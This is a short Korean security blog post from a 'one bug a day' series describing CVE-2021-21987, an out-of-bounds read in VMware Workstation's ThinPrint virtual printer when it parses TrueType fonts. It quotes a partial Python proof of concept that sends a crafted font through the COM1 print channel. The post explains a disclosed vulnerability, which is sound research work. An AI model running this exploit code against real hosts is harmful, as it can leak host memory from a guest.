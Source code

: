 ```yaml
---
title: "[하루한줄] CVE-2021-21987: VMWare Workstation 가상 프린터의 OOB read 취약점"
author: L0ch
tags: [L0ch, vmware, out-of-bounds, cve, oob read]
categories: [1day1line]
date: 2021-05-25 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[CVE-2021-21987-vmware-out-of-bounds read vulnerability via Cortado ThinPrint](https://github.com/houjingyi233/my-bugs/tree/main/CVE-2021-21987-vmware-out-of-bounds read vulnerability via Cortado ThinPrint)

## Target

- VMware Workstation 16.1.2 이전
- Horizon Client 5.5.2 이전

## Explain
VMWare Workstation 및 Windows용 Horizon Client에 설치된 Windows 10의 가상 프린터 구성요소에서 발견된 범위를 벗어난 읽기(Out-of-Bound Read) 취약점의 PoC가 공개되었습니다.

VMWare의 가상 프린터인 ThinPrint 구성 요소는 게스트 Windows에서 문서 및 이미지를 파싱해 호스트 OS에 연결된 프린터로 출력할 수 있는 기능을 지원합니다. 취약점은 `rundll32.exe`에서 로드되는 `TPView.dll`이 폰트 확장자 `TrueType Font(TTF)`를 파싱하는 코드에 존재하며 TTF 파일의 검증이 충분히 이루어지지 않아 해커의 악성 TTF 파일을 파싱하는 과정에서 메모리를 읽어 정보 유출로 이어질 수 있습니다. 아래는 COM1 포트의 가상 프린터를 활성화하고 악성 TTF 파일을 전달하는 PoC의 일부입니다.

```python
class TPVM:
SERIAL_PORT=b'\\\\\\\\.\\\\COM1'
    def __init__(self):
        self.hPort=windll.kernel32.CreateFileA(self.SERIAL_PORT,
                                               0xc0000000, # GENERIC_READ | GENERIC_WRITE
                                               3,          # FILE_SHARE_READ | FILE_SHARE_WRITE
                                               None,
                                               3,          # OPEN_EXISTING
                                               0,
                                               None)
        if (self.hPort & 0xffffffff) == 0xffffffff:
            raise Exception('the serial port could not be opened (0x%08x)'%(GetLastError()))

        if not windll.kernel32.SetupComm(self.hPort, 0x20000, 0x84d0):
            raise WinError()
...
t = TPVM()
...
f = open("poc.ttf", "rb")
font_data = f.read()
f.close()

emri_engine_font = struct.pack('<IIIII', 0x2, 8 + FONT_COUNT * 4 + len(font_data) + 4, 0, FONT_COUNT, len(font_data))
emri_engine_font += binascii.a2b_hex('00000000')
emri_engine_font += font_data

# Put it all together.
data_plaintext = devmode + emfspool_hdr + emf + emri_metafile_ext + emri_engine_font
data_compressed = zlib.compress(data_plaintext, 9)
print_command = struct.pack('<H', 0) + struct.pack('<II', len(data_compressed), len(data_plaintext)) + data_compressed

# Send the printing command.
t.do_data(print_command)
t.do_command(0x8002)
t.close()
```

해당 취약점은 지난 2016년 Google Project Zero가 발견한 [CVE-2016-7083](https://bugs.chromium.org/p/project-zero/issues/detail?id=849) 과 유사한 것으로 알려졌습니다.

